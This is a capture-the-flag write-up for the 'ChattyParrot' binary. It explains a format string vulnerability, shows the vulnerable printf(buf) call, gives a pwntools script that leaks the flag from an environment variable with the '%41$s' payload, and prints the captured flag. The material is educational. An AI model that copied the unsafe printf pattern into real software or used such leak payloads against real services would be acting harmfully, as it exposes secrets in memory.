






# GoldenByte - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:



---

## Challenge Summary

The `ChattyParrot` binary contains a **format string vulnerability** in the `vuln()` function, where user input is passed to `printf()` without a format specifier. By using `%p` and `%s`, an attacker can **leak memory** and extract the flag stored in the `FLAG_VAL` environment variable. The goal is to craft input that reveals the flag by exploiting this vulnerability.

---

## Binary Information

```bash
$ file ChattyParrot
```



```bash
$ checksec main
```



---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf("%s", "Input your phrase:");
printf(buf);  // Format string vulnerability
```



```c
read(0, buf, 0x100uLL);  // User input is read into buffer
```


- The `main()` function retrieves the `FLAG_VAL` environment variable and copies it into `SECRET`.
- It then prompts the user for input and calls `vuln()`.
- In `vuln()`, 256 bytes are read into `buf` using `read(0, buf, 0x100)`.
- The input is then passed directly to `printf(buf)`, causing a format string vulnerability.

---

## Exploit Strategy

### Step 1: Leak Memory Address

We exploit the format string vulnerability by sending a payload containing `%p` and `%s` to leak memory addresses. This allows us to:

- Leak the address of the `FLAG_VAL` environment variable.

### Step 2: Extract the Flag

Using the leaked memory addresses, we can:

- Access the **value of `FLAG_VAL`** by reading the content at the leaked address, which contains the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ctf.mf.grsu.by --port 9077
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ChattyParrot')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9077)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env = env_vars ,*a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

payload = b'%41$s'
io.sendline(payload)
io.recvuntil(b'Input your phrase:')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output



---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{J35KiI_P4RR07_Drug_M47u3}
```
